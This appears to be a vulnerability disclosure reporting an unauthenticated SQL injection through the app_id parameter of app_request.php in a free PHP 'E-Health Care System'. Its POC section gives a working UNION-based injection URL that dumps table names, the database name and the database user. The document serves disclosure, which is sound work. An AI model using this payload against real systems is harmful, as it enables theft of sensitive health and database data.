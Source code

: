 # E-Health Care System IN PHP has sql injection vulnerability via app_id parameter.

## supplier
https://code-projects.org/e-health-care-system-in-php-css-js-and-mysql-free-download/
## Vulnerability file
app_request.php
## describe
An unrestricted SQL injection attack exists in an E-Health Care System's . The parameters that can be controlled are as follows: app_id. This function executes the app_id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

## code analysis
The $app_id parameters of the app_request.php are not filtered and concatenated into the SQL statement for execution when attacker is not logining.

![image-20241104225309002](https://github.com/user-attachments/assets/b4855da1-97a1-42ba-b83f-2f8ce9cbac0c)



## POC

Asset the url，can get table_name，database_ name and user. 

```
http://healthcare/Doctor/app_request.php?app_id=1%27%20union%20select%20group_concat(table_name),database(),3,user(),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27%20from%20information_schema.tables%20where%20table_schema=database()--+
```

Get table_name from online_health_care database;

And get databasename：online_health_care

get username: root@localhost

![image-20241104224746017](https://github.com/user-attachments/assets/31c34a1c-491a-41bb-bcf0-6ea58e91bb34)